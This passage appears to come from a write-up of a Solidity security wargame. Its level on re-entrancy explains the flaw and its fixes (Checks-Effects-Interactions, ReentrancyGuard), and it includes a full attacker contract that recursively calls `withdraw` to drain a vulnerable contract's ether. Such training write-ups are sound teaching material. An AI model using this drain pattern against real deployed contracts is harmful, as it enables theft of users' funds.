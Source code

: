 Note that our `attack` function would fail if it used `payable(address(challenge)).transfer` because transfer has a gas limit of 21000.
It's a good idea [to never use `transfer`](https://consensys.net/diligence/blog/2019/09/stop-using-soliditys-transfer-now/) and just use the `call` instead.

## 10. Re-Entrancy

This contract has a classic re-entrancy vulnerability.
It should follow the [Checks-Effects-Interactions Pattern](https://docs.soliditylang.org/en/v0.6.11/security-considerations.html) or use OpenZeppelin's ReentrancyGuard function modifiers.

When calling `withdraw` it invokes our contract again before resetting the balance, allowing us to enter the contract again with another withdraw action.

```solidity
contract ReentranceAttacker {
    IReentrance public challenge;
    uint256 initialDeposit;

    constructor(address challengeAddress) {
        challenge = IReentrance(challengeAddress);
    }

    function attack() external payable {
        require(msg.value >= 0.1 ether, "send some more ether");

        // first deposit some funds
        initialDeposit = msg.value;
        challenge.donate{value: initialDeposit}(address(this));

        // withdraw these funds over and over again because of re-entrancy issue
        callWithdraw();
    }

    receive() external payable {
        // re-entrance called by challenge
        callWithdraw();
    }

    function callWithdraw() private {
        // this balance correctly updates after withdraw
        uint256 challengeTotalRemainingBalance = address(challenge).balance;
        // are there more tokens to empty?
        bool keepRecursing = challengeTotalRemainingBalance > 0;

        if (keepRecursing) {
            // can only withdraw at most our initial balance per withdraw call
            uint256 toWithdraw =
                initialDeposit < challengeTotalRemainingBalance
                    ? initialDeposit
                    : challengeTotalRemainingBalance;
            challenge.withdraw(toWithdraw);
        }
    }
}
```
